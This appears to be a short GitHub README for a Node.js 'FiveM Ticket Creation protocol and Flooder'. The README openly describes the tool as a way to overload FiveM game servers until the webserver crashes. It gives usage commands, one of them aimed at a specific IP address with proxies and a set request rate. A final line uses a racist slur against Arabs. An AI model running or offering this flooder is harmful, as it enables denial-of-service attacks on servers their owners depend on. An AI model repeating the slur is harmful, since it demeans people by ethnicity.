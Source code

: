 <h2>FiveM Ticket Creation protocol and Flooder</h2>

<h3>Coded by aqu (dv: @2aqu)</h3>

<h4>This script can generate FiveM tickets that when flooding causes high CPU load and makes the webserver crash</h4>

<h3>usage</h3><br>

```sh
node fivem.js http://SERVER:30120/client proxy_file duration request_per_proxy
node fivem.js http://216.151.164.20:30120/client http.txt 120 64
```

## Released because skiddo 3NATC (arabian monkey hill) are using it without my consent
